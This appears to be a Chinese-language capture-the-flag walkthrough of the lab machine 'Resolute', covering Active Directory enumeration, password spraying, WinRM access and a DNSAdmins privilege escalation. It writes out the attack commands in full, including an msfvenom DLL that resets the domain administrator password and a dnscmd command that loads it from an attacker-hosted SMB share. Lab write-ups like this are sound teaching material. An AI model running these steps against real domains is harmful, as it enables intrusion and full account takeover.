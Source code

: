 ```yaml
---
description: Medium / 枚举 / DNSadmins提权
---
```


# ✔️ Resolute

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA resolute 10.129.176.63 --open
```

<figure><img src="../../.gitbook/assets/1 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Nmap扫描结果中已获得了目标域名：<mark style="color:red;">**megabank.local**</mark>&#x20;

<figure><img src="../../.gitbook/assets/3 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/4 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 因为没有任何Web页面的开放端口，所以直接进行针对SMB/RPC服务的一系列的匿名登录操作，看看是否可以找到些什么信息：

```bash
# 可以成功的匿名登录，但是没有任何信息返回：
smbclient -N -L 10.129.176.63
smbmap -H 10.129.176.63
nmap --script smb-vuln* -p 139,445 10.129.176.63
rpcclient 10.129.176.63
rpcclient -U '' 10.129.176.63
```

<figure><img src="../../.gitbook/assets/5 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 之前一直没啥大用的enum4linux这次表现不错，收集到了很多有用的信息，如目标上所有的用户名还有密码策略：

```bash
enum4linux 10.129.176.63
```

<figure><img src="../../.gitbook/assets/8 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
后面复盘时意识到，此处密码策略中的Account Lockout Threshold: None，这意味着可以是用密码暴破而不用担心账户被锁定，是否有意引导我进“兔子洞”？！因为本例中的所有凭证都无需暴破。
{% endhint %}

* 在enum4linux的输出结果中，就已经找到了一个有效凭证：<mark style="color:red;">**Marko Novak : Welcome123!**</mark>

<figure><img src="../../.gitbook/assets/11 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将刚刚收集到的所有用户名全部整理成一份username.txt文件，待后续使用：

<figure><img src="../../.gitbook/assets/10 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 用Kerbrute先过一遍这个username列表，看看哪些用户名是域内有效的。29个用户名25个有效，太多了，看起来不太对，应该不是这么用的：

```bash
./kerbrute_linux_amd64 username --dc 10.129.176.63 -d megabank.local username.txt
```

<figure><img src="../../.gitbook/assets/12 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (7).png" alt=""><figcaption></figcaption></figure>

* 使用crackmapexec和刚才收集到的有效凭证登录一下目标系统的SMB服务：

```bash
crackmapexec smb 10.129.96.155 -u marko -p 'Welcome123!'
```

<figure><img src="../../.gitbook/assets/14 (6).png" alt=""><figcaption></figcaption></figure>

```bash
evil-winrm -i 10.129.96.155 -u marko -p Welcome123!
```

<figure><img src="../../.gitbook/assets/17 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 几次尝试确认自己没有输错后，发现该账户确实登录不上去，决定密码喷洒来找出是否还有其他用户账号也是用的这个密码：

```bash
crackmapexec smb 10.129.96.155 -u username.txt -p 'Welcome123!'
```

<figure><img src="../../.gitbook/assets/15 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (5).png" alt=""><figcaption></figcaption></figure>

* 找到了一个新的有效凭证：<mark style="color:red;">**melanie:Welcome123!**</mark>

### GET SHELL

* 使用evil-winrm和新的凭证登录成功：

```bash
evil-winrm -i 10.129.96.155 -u melanie -p Welcome123!
```

<figure><img src="../../.gitbook/assets/18 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 简单手动枚举无果后，决定上传winPEAS进行信息收集：

<figure><img src="../../.gitbook/assets/20 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* winPEAS也没什么收获，上传sharphound收集，用bloodhound分析：

<figure><img src="../../.gitbook/assets/22 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/23 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 至此，仍然无任何明显收获，应该是方向错了。决定从头开始枚举，列出了之前忽略掉的隐藏目录PSTranscripts：

```powershell
dir -force
```

<figure><img src="../../.gitbook/assets/25 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 找到了一个txt文件，查看后貌似是一个日志记录的文件，是关于用户ryan的：

<figure><img src="../../.gitbook/assets/27 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 同时也在这个txt文件中发现了用户<mark style="color:red;">**ryan**</mark>的登录凭证：<mark style="color:red;">**Serv3r4Admin4cc123!**</mark>

<figure><img src="../../.gitbook/assets/28 (1).png" alt=""><figcaption></figcaption></figure>

* 使用该凭证登录ryan账户后，枚举一下这个ryan的相关信息：

<figure><img src="../../.gitbook/assets/29 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/30 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/31 (1).png" alt=""><figcaption></figcaption></figure>

* 在ryan账户下，发现了一个note.txt文档，像是一个备忘录之类的文档，没看出什么实际作用：

<figure><img src="../../.gitbook/assets/32 (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 至此无法再继续下去，看提示后知道此处是DNSadmins滥用导致的提权攻击，才注意到ryan账户是DNSadmins组的成员账户，而该组成员是有权向目标DNS写入文件的。
* 使用msfvenom制作一个DLL文件，其中包含了自定义的administrator的登录密码，然后在kali本地开启smbserver：

```bash
msfvenom -p windows/x64/exec cmd='net user administrator fiii123 /domain' -f dll > resolute.dll
```

<figure><img src="../../.gitbook/assets/33 (1).png" alt=""><figcaption></figcaption></figure>

```bash
# 开启smbserver:
python3 smbserver.py share ./
```

<figure><img src="../../.gitbook/assets/35 (1).png" alt=""><figcaption></figcaption></figure>

* 在目标系统上下载这个DLL文件，重启一下DNS服务，该DLL文件即可生效：

```bash
cmd /c dnscmd localhost /config /serverlevelplugindll \10.10.16.12\share\resolute.dll
```

<figure><img src="../../.gitbook/assets/34 (1).png" alt=""><figcaption></figcaption></figure>

* 使用psexec.py和刚才自定义的新的administrator的密码登录后，成功ROOT：

<figure><img src="../../.gitbook/assets/36 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/37 (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例Get Shell阶段不难，常规的信息收集之后就能拿到。提权阶段涉及到了我的盲点，第一次遇到DNSadmins提权，查阅了一些提示和技术解析的文章后，成功root。

(本例机器中途重置过，因此IP地址有所改变，但不影响其利用过程和结果)
{% endhint %}



